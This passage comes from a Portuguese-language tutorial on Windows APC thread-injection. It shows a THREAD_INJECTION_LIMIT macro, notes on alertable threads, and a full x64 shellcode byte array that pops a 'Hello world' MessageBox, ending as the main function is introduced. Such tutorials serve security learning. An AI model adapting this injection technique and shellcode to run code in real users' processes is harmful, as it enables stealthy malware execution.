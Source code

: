 Utilizaremos uma diretiva de pré-processamento para definirmos uma macro (`THREAD_INJECTION_LIMIT`) que limitará a quantidade de threads que devem sofrer injeção. Isso é importante para termos mais controle sobre como a injeção é realizada, buscando evitar crashes. Porém, ao definirmos um limite, é possível que uma thread alertable não tenha o shellcode incluído nas sua fila de APCs. Aumente o valor caso a injeção não funcione.

Definiremos uma variável global para guardar nosso shellcode x64, que, nesse caso, tem apenas a função de executar uma MessageBox. [Link](https://gist.github.com/kkent030315/b508e56a5cb0e3577908484fa4978f12) para o gist original do shellcode.

```cpp
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

#define THREAD_INJECTION_LIMIT 2

// Spawns a MessageBox
unsigned char shellcode[] = \
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";
```

As primeiras linhas de código da main irão garantir que o usuário deverá repassar um nome de um processo para prosseguir com a técnica.
